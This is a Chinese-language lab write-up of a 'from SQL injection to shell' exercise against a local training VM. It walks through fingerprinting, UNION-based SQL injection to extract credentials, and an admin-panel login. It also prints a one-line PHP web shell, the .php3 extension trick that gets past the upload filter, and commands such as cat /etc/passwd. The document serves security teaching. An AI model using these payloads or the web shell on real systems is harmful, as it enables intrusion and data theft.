 # 翻转课堂三-从SQL注入到Shell #

## 介绍 ##

攻击分为三步：
- Fingerprinting：收集有关Web应用程序和使用中的技术的信息
- Detection and exploitation of SQL injection：SQL注入工作原理以及利用它们来检索信息
- Access to the administration pages and code execution：访问操作系统和运行命令的最后一步

## 环境配置 ##

- 目标服务器：下载镜像并转入虚拟机
![](img/2.png)

- 攻击者主机：
![](img/attacker.png)

  - 设置攻击者浏览器：
![](img/attackerBrowser.png)
  
  - 打开 burpsuite 监听所有端口
![](img/burpsuiteALL.png)

  - 可以访问目标服务器
 
![](img/ping.png)


## 实验过程 ##

### Fingerprinting ###
#### Inspecting HTTP headers ####
- HTTP请求，可获得服务器信息及PHP版本信息

  - telnet

![](img/telnet.png)

  - 攻击者访问服务器，并用burpsuite查看信息

![](img/burpsuiteHTTP.png)

- HTTPS请求

   - 请求失败，说明应用程序没有运行在443端口

![](img/https.png)

#### Using a directory Buster ####

使用wfuzz检测远程文件与文件夹
![](img/wfuzz.png)

### Detection and exploitation of SQL injection ###

#### Detection of SQL injection SQL注入检测 ####

##### 基于整数的检测 #####

1. 访问http://10.0.2.15/cat.php?id=1
![](img/id1.png)

  - 与输入http://10.0.2.15/cat.php?id=2-1 相同。则可能存在SQL注入
![](img/id2-1.png)


2. 如果访问http://10.0.2.15/cat.php?id=1'(多打一个单引号)，则会收到错误提示
![](img/id11.png)

##### 基于字符串的检测 #####

- 奇数个 **'** 会导致语法错误，所以使用偶数个'来测试
- 使用 **--** 注释掉查询的结尾
- 使用**and '1'='1**（不改变查询语句的语义）和**and '1'='0**（改变查询语句的语义），对比发现漏洞

#### SQL注入的开发 ####
##### 利用UNION关键字进行SQL注入 #####

- 访问http://10.0.2.15/cat.php?id=1 union select 1  收到错误提示
![](img/union1.png)
- 反复测试，直至访问http://10.0.2.15/cat.php?id=1 union select 1,2,3,4 时得到正确页面，可知列的正确数量
![](img/union1234.png)

- 也可以用order by猜测列的数量。当输入列号大于正确列数时，报错
![](img/orderby.png)

##### 检索信息 #####

- 数据库版本信息
![](img/version.png)
- 当前用户信息
![](img/user.png)
- 数据库名
![](img/database.png)
- 获取数据库所有表名
![](img/tables.png)
- 获取数据库所有列名
![](img/columns.png)
- 获取表与列的对应关系
![](img/tablecolunm.png)

- 通过上图可知还存在用户名与密码字段，查询可得
![](img/loginpass.png)
 
 
### 访问管理页面和代码执行 ###
- 将得到的密码进行解密，可得密码为 P4ssw0rd
![](img/pswd.png)

- 根据得到的用户名和密码访问管理页面
![](img/login.png)
   - 登陆成功
   ![](img/loginsucc.png)

- 植入webshell

   - 找到上图中的文件上传按钮
   - 上传一个webshell.php文件，内容为
    > <?php
    >       system($_GET['cmd']);
    >     ?>
   - 当后缀为php时，被页面拒绝（该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)
   ![](img/file.png)
   - 改为php3的后缀名后，上传成功
   ![](img/filesucc.png)

- 访问植入的php文件
![](img/php.png)
- 查看审查元素
![](img/info.png)
- 获取页面大量信息
![](img/uname.png)
![](img/lotsinfo.png)

    - 如通过ls得到当前目录或上级目录信息
    - 通过cat /etc/passwd得到系统用户列表
    - 通过cat /etc/hosts等指令可以查看主机信息，更改网络配置，甚至重启系统

- 实验结束
